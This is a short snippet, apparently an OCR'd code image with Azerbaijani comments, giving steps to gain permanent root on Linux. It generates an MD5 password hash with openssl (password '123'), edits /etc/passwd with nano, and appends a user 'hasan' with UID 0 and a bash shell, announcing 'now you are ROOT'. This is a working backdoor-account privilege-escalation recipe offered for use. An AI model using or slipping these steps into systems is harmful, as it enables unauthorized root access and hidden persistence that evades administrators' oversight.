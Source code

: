      /etc/passwd  
 ## hissesine elave etsen sen hemise root kimi usere daxil olacaqsan 
      openssl passwd -1  -salt hasan
   ## parol 123
       nano /etc/passwd
       hasan:$1$hasan$BUMdh4tI4WdCuFkBJI64T/:0:0:root:/root:/bin/bash 
      
   
 


  
   ## sen artiq ROOT'SAN
